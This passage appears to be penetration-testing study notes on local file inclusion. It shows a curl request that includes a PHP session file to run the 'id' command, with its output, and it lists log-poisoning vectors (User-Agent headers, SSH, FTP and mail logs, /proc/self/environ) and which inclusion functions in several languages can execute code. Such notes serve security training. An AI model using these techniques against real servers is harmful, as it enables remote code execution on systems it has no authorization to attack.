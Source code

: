 ```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


#### Server Log Poisoning

##### inject these then include log files

##### User-Agent Header
- `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log`
- `/proc/self/environ`  or `/proc/self/fd/N`

##### username to PHP code
- ftp `/var/log/vsftpd.log`
- ssh  `/var/log/sshd.log`

##### email containing PHP code
- mail services  `/var/log/mail`


## File Inclusion Functions

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| ----- | :-----: | :-----: | :-----: |
| **PHP** |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodeJS** |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NET** | |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` | ✅ | ✅ | ✅ |









